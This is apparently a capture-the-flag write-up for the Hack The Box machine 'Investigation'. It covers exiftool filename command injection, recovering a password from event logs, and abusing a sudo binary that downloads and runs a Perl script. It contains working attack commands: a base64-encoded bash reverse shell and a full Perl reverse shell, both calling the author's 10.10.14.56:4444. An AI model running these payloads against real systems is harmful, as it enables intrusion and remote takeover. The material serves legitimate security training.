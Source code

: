 # Investigation

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.236.234
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-24 10:42 EST
Warning: 10.129.236.234 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.236.234
Host is up (0.16s latency).
Not shown: 64782 closed tcp ports (conn-refused), 751 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Web Exploit based. We would have to add `eforenzics.htb` to our `/etc/hosts` file to access the web port.

### Exiftool RCE

The website reveals some web application advertising Digital Forensic Services.

<figure><img src="../../../.gitbook/assets/image (11) (8) (1).png" alt=""><figcaption></figcaption></figure>

Clicking the big Go button reveals that we can upload a jpg file to the website for analysis.

<figure><img src="../../../.gitbook/assets/image (16) (7).png" alt=""><figcaption></figcaption></figure>

When I uploada file, it would produce a link to a report.

<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

The file would be a .txt file of output from `exiftool` being used on the file.

<figure><img src="../../../.gitbook/assets/image (18) (2) (1).png" alt=""><figcaption></figcaption></figure>

Very obviously, there is a JPG RCE vulnerability here. One possible parameter to inject commands in is the File Name. With the version, I found this vulnerability that allowed for RCE through the pipe character.

{% embed url="https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429" %}

From this, I attempted a few direct OS command injections but it didn't work out well. I then attempted some Base64 encoded stuff, and a simple ping command works!

<figure><img src="../../../.gitbook/assets/image (17) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (21) (7) (1).png" alt=""><figcaption></figcaption></figure>

We can then replace the Base64 encoded command with a simple bash reverse shell and it works!

```
$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.56/4444 0>&1"  ' | base64
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Ni80NDQ0IDA+JjEiICAK
```

<figure><img src="../../../.gitbook/assets/image (20) (2) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

When viewing the `/home` directory, we see there's a `smorton` user that we cannot access.

```
www-data@investigation:/home$ ls -la
total 12
drwxr-xr-x  3 root    root    4096 Aug 27 21:20 .
drwxr-xr-x 18 root    root    4096 Jan  9 16:53 ..
drwxrwx---  3 smorton smorton 4096 Jan  9 10:47 smorton
```

We need to do some looking around. I ran LinPEAS and found an interesting cronjob that was running.

<figure><img src="../../../.gitbook/assets/image (3) (1) (8) (1).png" alt=""><figcaption></figcaption></figure>

Some backups of the `/home` directory were being created, and also there was an unquoted service path for the `date` binary.

### Windows Event Logs

Heading to the `/usr/local/investigation/analysed_log` file, we can find a Microsoft Outlook Message there.

```
www-data@investigation:/usr/local/investigation$ ls -la
total 1288
drwxr-xr-x  2 root     root        4096 Sep 30 23:43  .
drwxr-xr-x 11 root     root        4096 Aug 27 21:54  ..
-rw-rw-r--  1 smorton  smorton  1308160 Oct  1 00:35 'Windows Event Logs for Analysis.msg'
-rw-rw-r--  1 www-data www-data       0 Oct  1 00:40  analysed_log
```

I sent this back to my machine via `nc` and opened it using `msfconvert`. Afterwards, we can read the emails. There's a huge base64 encoded zip file attached.

```
Content-Type: text/plain; charset=UTF-8
Content-Disposition: inline
Content-Transfer-Encoding: 8bit

Hi Steve,

Can you look through these logs to see if our analysts have been logging on to the inspection terminal. I'm concerned that they are moving data on to production without following our data transfer procedures. 

Regards.
Tom
```

I couldn't decode the base64 to get the file for some reason, so I ported the message to my Windows machine and downloaded the file there.

When unzipped, we would get this MS Windows Vista Event Log.

<figure><img src="../../../.gitbook/assets/image (15) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

So the key here is to watch for logging and file transfers that are occurring. We can use this tool to dump the log file into a JSON file for easier reading.&#x20;

{% embed url="https://github.com/omerbenamram/evtx" %}

After looking around the entire log file (for a while), I chanced upon this string when searching for the Authentication term.

<figure><img src="../../../.gitbook/assets/image (12) (9) (1).png" alt=""><figcaption></figcaption></figure>

Turns out that this was the password for `smorton`. We can now `su` and capture the user flag.

### Sudo Binary

When checking sudo privileges as `smorton`, we can find one:

```
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

Attempting to run the binary just does this:

```
smorton@investigation:~$ sudo /usr/bin/binary
Exiting...
```

So I transferred this binary back to my machine and used `ghidra` to see what it does. Here's the decompiled main function:

<figure><img src="../../../.gitbook/assets/image (19) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

We can use this to get these this information:

1. It needs a total of 3 parameters
2. A password of `lDnxUysaQn` is needed as one of the parameters
3. It exeecutes `curl` and `perl` on the script we download
4. Then it cleans up by removing the file.

Simple enough. We should just need to host a perl reverse shell on our machine via Python HTTP and let this binary download and execute it.&#x20;

```perl
use Socket;$i="10.10.14.56";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

After a bit of testing about the ordering of the parameters, I found what works:

```
smorton@investigation:~$ sudo /usr/bin/binary http://10.10.14.56/rev.perl lDnxUysaQn 
Running...
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

Definitely more on the CTF side of HTB.&#x20;
